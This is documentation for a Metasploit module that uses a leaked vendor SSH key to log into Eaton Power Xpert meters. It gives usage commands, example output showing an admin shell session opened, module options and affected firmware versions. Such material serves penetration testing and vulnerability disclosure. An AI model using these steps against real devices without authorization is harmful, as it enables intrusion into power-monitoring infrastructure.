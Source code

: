 The eaton_xpert_backdoor module scans for Eaton Xpert Power meters with a vendor SSH private key used in the device firmware's build process.

## Vulnerable Application

  Eaton is a power management company with a wide range of power management products.
  Power meters sold by Eaton used a firmware build process for many years that left a developer key pair in the default profile.
  Specific models include: Power Xpert Meter 4000/6000/8000
  

## Verification Steps

**Usage**
```
- [ ] Start `msfconsole`
- [ ] `use auxiliary/scanner/ssh/eaton_xpert_backdoor`
- [ ] `set RHOSTS 192.168.135.155`
- [ ] `run -z`
- [ ] `Vulnerable hosts should present a shell`
```

**Example output**
```
[+] 192.168.135.155:22 - Logged in as admin
[*] Command shell session 1 opened (192.168.135.1:62063 -> 192.168.135.155:22) at 2018-08-31 19:12:21 -0400
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

- [ ] `sessions`
```

Active sessions
===============

  Id  Name  Type   Information                                                      Connection
  --  ----  ----   -----------                                                      ----------
  1         basic   Eaton Xpert Meter SSH Backdoor (SSH-2.0-OpenSSH_7.7p1 Debian-4)  192.168.135.1:62063 -> 192.168.135.155:22 (192.168.135.155)

```


## Options

  **Option name**

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       The target address range or CIDR identifier
   RPORT    22               yes       The target port
   THREADS  1                yes       The number of concurrent threads


### Powermeter Firmware versions

Software Link: http://www.eaton.com/Eaton/ProductsServices/Electrical/ProductsandServices/PowerQualityandMonitoring/PowerandEnergyMeters/PowerXpertMeter400060008000/index.htm#tabs-2

Version: Firmware <= 12.x and <= 13.3.x.x and below more versions may be impacted
Tested on: Firmware 12.1.9.1 and 13.3.2.10
